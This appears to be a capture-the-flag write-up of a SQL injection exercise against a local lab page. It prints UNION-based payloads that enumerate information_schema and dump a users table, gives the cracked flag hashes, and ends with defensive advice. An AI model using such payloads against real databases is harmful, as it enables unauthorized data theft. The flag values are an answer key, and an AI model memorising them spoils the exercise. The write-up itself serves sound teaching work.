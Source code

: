 # situation

## http://192.168.56.101/?page=member

we find that sql return errors 

we try sql requests with an id as it is mandatory and 
we can make a union to continue the request and gather more info
we look for infos on information information_schema

https://learn.microsoft.com/fr-fr/sql/relational-databases/system-information-schema-views/columns-transact-sql?view=sql-server-ver16

we look for user infos so we find each column_name in usr we need to fin 2 by 2 and we find in first name information to decrypt flag and in surname encrypted flage

0 UNION  select table_name, column_name FROM information_schema.columns  


ID: 0 UNION select Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

decrypt in md5 we find  FortyTwo 

so we encrypte in sha256 fortytwo

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

https://md5decrypt.net/Sha256/#answer
https://md5decrypt.net/#answer

# problem

All sensitive information stored in the database is accessible to anyone.

# solution

Use an ORM (Object-Relational Mapping) library: An ORM can help to abstract away the SQL and provide a safe and secure way to interact with the database.

Validate and sanitize user input: By validating and sanitizing user input, you can prevent malicious code from being included in SQL statements.

Use a whitelist approach: Only allow specific, known good inputs and prevent all other inputs.

In SQL, we can specify and limit access to certain tables based on the IP that makes the request. This prevents if a vulnerability is discovered by hacker, the entire database from being usable.